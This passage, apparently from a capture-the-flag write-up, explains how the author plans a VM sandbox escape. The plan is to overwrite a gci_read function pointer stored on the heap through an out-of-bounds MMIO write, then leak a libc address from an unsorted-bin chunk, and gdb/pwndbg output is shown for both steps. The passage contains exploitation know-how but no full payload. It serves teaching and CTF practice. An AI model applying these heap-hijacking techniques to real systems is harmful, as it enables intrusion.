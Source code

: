 A few weeks before the CTF, I heard about a simple QEMU escape
challenge through an out-of-bounds access in a MMIO interface at
SECCON CTF 13 Quals. Since I had never done that before and I was
curious to see to what a sandbox escape could be like, I read [this
write-up](https://chovid99.github.io/posts/seccon-ctf-13-quals/#babyqemu)
by Chovid99.

The present challenge reminded me of this write-up. It gave me the
idea to overwrite the pointer to `gci_read` in the MMIO structure, in
case it was stored in the heap. And... it turns out we are lucky.

```
gef> print gci_read
$2 = {<text variable, no debug info>} 0x5640734938d9 <gci_read>
gef> find 0x5640734938d9
[+] Searching '\xd9\x38\x49\x73\x40\x56' in whole memory
[+] In '[heap]' (0x5640774f2000-0x5640775a3000 [rw-])
  0x5640774f7450:    d9 38 49 73 40 56 00 00  00 00 00 00 00 00 00 00    |  .8Is@V..........  |
```

As a result, we can use the heap out-of-bounds write to overwrite this
pointer and control `rip`. But the road to the flag is far from being ended.

Indeed, we have two main limitations:
- To overwrite the pointer with `@system` or a one gadget, we have to
  leak the libc base address,
- We do not control the value of `rdi` when controlling the
  instruction pointer: it always points to the `uc_engine` structure,
  the first argument of `gci_read`.
  
## Libc Leak

A common idea to leak a pointer to libc in the head is to find a chunk
in the unsorted bin, where `fd` and `bk` pointers are libc pointers
(to `main_arena`). Here, we are lucky again:

```
pwndbg> bins
tcachebins
0x30 [  5]: 0x5576a3a7f030 —▸ 0x5576a3a9b250 —▸ 0x5576a3a9af90 —▸ 0x5576a3a7e640 —▸ [...]
0x410 [  2]: 0x5576a3a7e180 —▸ 0x5576a3a7e940 ◂— 0
fastbins
empty
unsortedbin
all: 0x5576a3ad9610 —▸ 0x7f1deca03b20 (main_arena+96) ◂— 0x5576a3ad9610
smallbins
empty
largebins
0x6c0-0x6f0: 0x5576a3a87690 —▸ 0x7f1deca03fc0 (main_arena+1280) ◂— 0x5576a3a87690
0xe00-0xff0: 0x5576a3acdf10 —▸ 0x7f1deca04130 (main_arena+1648) ◂— 0x5576a3acdf10
pwndbg> x/4gx 0x5576a3ad9610
0x5576a3ad9610:	0x0000000000000000	0x0000000000017001
0x5576a3ad9620:	0x00007f1deca03b20	0x00007f1deca03b20
```
